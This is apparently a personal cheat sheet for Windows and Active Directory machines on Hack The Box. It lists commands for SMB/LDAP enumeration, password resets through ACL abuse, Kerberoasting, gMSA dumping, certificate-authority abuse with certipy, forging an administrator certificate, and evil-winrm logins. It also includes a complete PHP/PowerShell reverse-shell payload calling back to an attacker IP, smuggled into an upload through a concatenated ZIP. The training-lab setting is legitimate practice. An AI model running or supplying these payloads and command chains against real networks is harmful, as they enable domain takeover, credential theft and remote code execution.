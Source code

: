## This is for the windows targets:
Ports to pay attention:
445 SMB
389 LDAP
1433 MSSQL

normally you will get some creds for win machines.
You should try them to find what they are for


**enumeration:**

gobuster dir -u "http://name.htb" -w /usr/share/wordlists/seclists/Discovery/Web-Content/dire....txt -t 100 -x php (windows usually use php files)


1) netexec ldap <targetIP> -u <username> -p <password>
and you will get smb and ldap confirmation

2) nxc smb <TargetIP> -u '<username>' -p '<password>' --shares
and you getw all the smb shares

3) crackmapexec smb <targetIP> -u <username> -p <password> --users or --computers

and now you get the info you wanted:

1) smbclient -L //targetip -U <username>
and then
2) smbclient //targetip -U <username>
>ls
and you get the files
3)

Then use bloodhund to find the connections and then use impacet tools.

---------------------------------------------------------------------------------------------------------
## An all around windows check guide

1. you do the normal scans (nmap for tcp and udp, rustscan)
2. 


---------------------------------------------------------------------------------------------------------
1. crackmapexec smb xx.xx.xx.xx -u levi.james -p 'KingofAkron2025!' --users                          (the creds are given)
2. nxc smb PUPPY.HTB -u 'levi.james' -p 'KingofAkron2025!' --rid-brute | grep "SidTypeUser" | awk -F '\\' '{print
$2}' | awk '{print $1}' > users.txt                                                      (just creates a .txt with all users)

3. use bloodhound to see all the connections
4. if your user has "GenericWrite" at someone else you can change his password
5. crackmapexec smb xx.xx.xx.xx -u levi.james -p 'KingofAkron2025!' --shares
6. smbclient \\\\xx.xx.xx.xx\\DEV -U "levi.james"
7. try dir and get filename

bloodyAD -u ant.edwards -p 'Antman2025!' -d puppy.htb --dc-ip <ip> set password adam.silver 'abc@123'

save into modify.ldif

dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 512

ldapmodify -x -H ldap://10.10.11.70 -D "ant.edwards@puppy.htb" -w 'Antman2025!' -f modify.ldif

evil-winrm -i 10.10.11.70 -u 'ADAM.SILVER' -p 'abc@123'


----------------------------------------------------------------------------------------------------------------------
**Bloodhound is a must!** with creds
1. bloodhound-python -u name -p password -d domain.htb -ns ip -c all --zip
The next part is different everytime
2. If you have **WriteSPN**:
    you need this: https://github.com/ShutdownRepo/targetedKerberoast (git clone it)
   a. ntpdate -u IP
   b. faketime "2025-06-09 16:22:00" python3 targetedKerberoast.py -v -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!' --dc-ip 10.10.11.72
   c. hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
  If you have **AddSelf**:
   a. nano randomname.ldif
     dn: CN=<thetargetname>,CN=Users,DC=<domain>,DC=htb
     changetype: modify
     add: member
     member: CN=<targetuser>,CN=Users,DC=<domain>,DC=htb
   b. ldapmodify -x -D "domain\targetusername" -w <password> -H ldap://ip -f randomname.ldif
  If you have **ReadGMSAPassword**:
   a. git clone : https://github.com/micahvandeusen/gMSADumper
   b. python3 gMSADumper.py -u name -p password -l ip -d domain.htb
   and you will get a hash but you cant crack it yet.
  If you have **ForcechangePassword**:
   a. bloodyAD -u 'userfrombefore$' -p ':1c37d00093dc2acf25a7z7f2d471fake4afdcthehashfrombefore' -d domain.htb --dc-ip ip set password sanm 'Password123!'
  If you have **WriteOwner**:
   a. impacket-owneredit -action write -new-owner 'sam' -target 'john' 'domain/sam:Password123!' -dc-ip ip
   b. impacket-dacledit -action 'write' -rights 'FullControl' -principal 'sam' -target-dn "CN=john,CN=Users,DC=domainname,DC=htb" 'domainname.htb/sam:Password123!' -dc-ip ip
   c. bloodyAD -d domainanme.htb -u 'sam' -p 'Password123!' --dc-ip ip set password john 'NewPa$$word'
   d. evil-winrm -i ip -u john -p 'NewPa$$word'


----------------------------------------------------------------------------------------------------------------------
1. sudo rdate -n 10.10.11.69  (windows machinesusually need to have the same time as target)
if this doesnt stay try: faketime

2. sudo responder -I tun0 -v
and
smbclient //targetip/IT -U <name>%<password> -c "put <filename>"    to upload a file at smb with write prev

ntpdate -u "ip"

faketime '2025-05-27 20:41:00' certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account ca_svc

export KRB5CCNAME=ca_svc.ccache

 faketime '2025-05-27 20:43:00' certipy-ad account -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -user 'ca_svc' read

faketime '2025-05-27 20:43:00' certipy-ad account -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -upn 'administrator' -user 'ca_svc' update

faketime '2025-05-27 20:44:00' certipy-ad req  -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -target 'DC01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'

faketime '2025-05-27 20:45:00' certipy-ad account -u 'ca_svc' -hashes ':ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.10.11.69 -upn 'ca_svc@fluffy.htb' -user 'ca_svc' update


faketime '2025-05-27 20:46:00' certipy-ad auth -pfx administrator.pfx -username 'administrator' -domain 'domain.htb' -dc-ip targetIP

evil-winrm -i targetIP -u administrator -H 'hash' 

-------------------------------------------------------------------------------------------------------------------------------------------------------
(NO CREDS WINDOWS MACHINE)
1. you need good enumeration + create an account at the website:
   gobuster dir ....... +x php   (windows site usually have .php files)
   ffuf ...... 
2. add---> echo '10.10.11.xx name.htb DC01.name.htb' | sudo tee -a /etc/hosts
3. if you found something like ..../upload.php?s_id=1
   try fuzzing it with ffuf or burpsuite
find the right id and there you will find a website that you can upload zip file

4. ZipSlip  (it allows attackers upload a zip file which has a legit file.pdf adn then your malware)
a) echo "hi" > legit.pdf
b) zip legit.zip legit.pdf
c) nano shell.php and put inside this:
  <?php
shell_exec("powershell -nop -w hidden -c \"\$client = New-Object System.Net.Sockets.TCPClient('YOURIP',4444); \$stream = \$client.GetStream(); [byte[]]\$bytes = 0..65535|%{0}; while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){; \$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0,\$i); \$sendback = (iex \$data 2>&1 | Out-String ); \$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> '; \$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2); \$stream.Write(\$sendbyte,0,\$sendbyte.Length); \$stream.Flush()}; \$client.Close()\"");
?>

and do: zip mal.zip shell.php
and: cat legit.zip mal.zip > combined.zip
and upload this zip

d) nc -lvnp 4444
e) then go where this file has saved, meybe: ..../uploads/shell.php

5. now you have a rce as xamppuser. Try to find usefull files like databases and hashes.
use type filename
6. if you find hashes try:
hashcat -a 0 -m hashid -w /usr/share/wordlists/rockyou.txt
7. and log in with evilrm to thuis account and then use bloodhound to find the connections
8. usually you will be able to change a password with:
net rpc password "targetname" "newP@ssword2022" -U "domainanme.htb"/"yourusername"%"thecodeyoufoundfromhash" -S domainanmeagain.htb        (all this on your machine)

9. and this user will have soem rights. you can check with bloodhound and then try to login with evilrm and try:
whoami /priv

if you found seManageVolumePrivilege: then you have the rights to manage The file system like C.
it has the exploit: https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public
you dowenload this .exe file at your pc
and then you evilrm at the user fro mthis directory and press: upload .....exe

10. now you run it there: .\SeManageVolumeExploit.exe

and this user now has full control over C
Your target is the Certification authorities CA
11. certutil -exportPFX my "domainanme-LTD-CA" C:\Users\Public\ca.pfx
12. go at the download file at \Public ---> cd Public

13. download ca.pfx    ( PFX IS THE TYPE THAT CA ARA STORED)
14. then at your pc forge a fake administrator.pfx:
   certipy-ad forge -ca-pfx ca.pfx -upn 'administrator@domainanme.htb' -subject 'CN=Administrator,CN=Users,DC=domainanme,DC=htb' -out forged_admin.pfx

15. and now abuse ceripy to auth this ca with kerberos tgt:
certipy-ad auth 0pfx forged_admin.pfx -dc-ip 10.10.11.x -username 'administrator' -domain 'domainanme.htb'

16. You are ready to connect with evil-winrm:
evil-winrm -i 10.10.11.x -u administrator -H'd803303515bf814ac14c5f1702abh866....'


